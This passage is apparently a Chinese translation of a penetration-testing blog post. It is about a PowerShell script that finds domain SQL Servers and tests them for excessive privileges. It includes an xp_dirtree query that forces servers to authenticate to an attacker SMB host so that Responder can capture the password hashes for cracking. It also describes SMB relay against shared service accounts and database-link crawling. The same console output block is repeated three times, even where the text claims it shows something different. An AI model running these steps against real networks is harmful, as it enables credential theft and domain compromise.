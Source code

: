 [+] Custom query sent: exec master..xp_dirtree '\\192.168.1.50\file'
[+] SUCCESS! - server4.mydomain.com\AppData (192.168.1.104) - Sysadmin: Yes - SvcIsDA: Yes             
[+] Custom query sent: exec master..xp_dirtree '\\192.168.1.50\file'
[*] ----------------------------------------------------------------------
[*] 3 of 5 SQL Server instances could be accessed.        
[*] End Time: 04/01/2014 10:02:00      
[*] Total Time: 00:02:00
[*] ----------------------------------------------------------------------
有一个非常棒的工具叫做Responder可以捕获从任意SQL server传递过来的密码hash。它可以从这里下载here。最后，hash可以使用OCLHashcat破解。

4，针对共享SQL Server服务帐户，执行SMB中继攻击几乎总是有效的。麻烦的是找出哪个SQL Server配置使用的是同一个服务账户。为了解决这个问题，我同样也在脚本中添加了几个参数来显示出所有服务账户。这些参数包括”-showsum”和”-showstatus”。服务账户同样也可以输出至csv文件中。一旦被发现，我博客之前提到的方法(found here)就可以用来获取SQL Server系统级权限。下面是一个基础的例子展示如何发现使用相同服务账户的SQL Server:

PS C:\Get-SQLServerAccess -ShowSum | export-csv c:\temp\sql-server-excessive-privs.csv
[*] ----------------------------------------------------------------------
[*] Start Time: 04/01/2014 10:00:00
[*] Domain: mydomain.com
[*] DC: dc1.mydomain.com
[*] Getting list of SQL Server instances from DC as mydomain\myuser...
[*] 5 SQL Server instances found in LDAP.
[*] Attempting to login into 5 SQL Server instances as mydomain\myuser...
[*] ----------------------------------------------------------------------
[-] Failed   - server1.mydomain.com is not responding to pings
[+] SUCCESS! - server2.mydomain.com\AppOneDev (192.168.1.102) - Sysadmin: No - SvcIsDA: No
[+] SUCCESS! - server3.mydomain.com\AppOneProd (192.168.1.103) - Sysadmin: No - SvcIsDA: No 
[+] SUCCESS! - server3.mydomain.com\SQLEXPRESS (192.168.1.103) - Sysadmin: No - SvcIsDA: No
[+] SUCCESS! - server4.mydomain.com\AppData (192.168.1.104) - Sysadmin: Yes - SvcIsDA: Yes             
[*] ----------------------------------------------------------------------
[*] 3 of 5 SQL Server instances could be accessed.        
[*] End Time: 04/01/2014 10:02:00      
[*] Total Time: 00:02:00
[*] ----------------------------------------------------------------------
在这个例子中，你可以看到其中有三个都在使用同一个域共享服务账户。

enter image description here

5，爬取数据库链接执行sysadmin权限查询也是一个几乎在所有场景中应用的技术。Antti Rantasaari在他博客里发表过一个关于数据库链接非常不错的概述(How to Hack Database Links in SQL Server)，在不久前我们同样也写过一个用来攻击的metasploit模块(here)。尽管你可以盲目的枚举数据库链接，但是我想用脚本来抓取每一个可登陆的SQL Server的链接数会变得更方便。你可以用”-showsnum”和”-showsatus”选项来显示它们。和上一个例子相似，同样也可以输出至csv文件中。下面是上一个的例子。

PS C:\Get-SQLServerAccess -ShowSum | export-csv c:\temp\sql-server-excessive-privs.csv
[*] ----------------------------------------------------------------------
[*] Start Time: 04/01/2014 10:00:00
[*] Domain: mydomain.com
[*] DC: dc1.mydomain.com
[*] Getting list of SQL Server instances from DC as mydomain\myuser...
[*] 5 SQL Server instances found in LDAP.
[*] Attempting to login into 5 SQL Server instances as mydomain\myuser...
[*] ----------------------------------------------------------------------
[-] Failed   - server1.mydomain.com is not responding to pings
[+] SUCCESS! - server2.mydomain.com\AppOneDev (192.168.1.102) - Sysadmin: No - SvcIsDA: No
[+] SUCCESS! - server3.mydomain.com\AppOneProd (192.168.1.103) - Sysadmin: No - SvcIsDA: No 
[+] SUCCESS! - server3.mydomain.com\SQLEXPRESS (192.168.1.103) - Sysadmin: No - SvcIsDA: No
[+] SUCCESS! - server4.mydomain.com\AppData (192.168.1.104) - Sysadmin: Yes - SvcIsDA: Yes             
[*] ----------------------------------------------------------------------
[*] 3 of 5 SQL Server instances could be accessed.        
[*] End Time: 04/01/2014 10:02:00      
[*] Total Time: 00:02:00
[*] ----------------------------------------------------------------------
正如你在示例所见，其中两个服务器存在链接，有可被攻击的潜在可能。

enter image description here

0x04 小结
下载这个脚本，用它来找到洞，然后修补它。 Have fun and hack responsibly!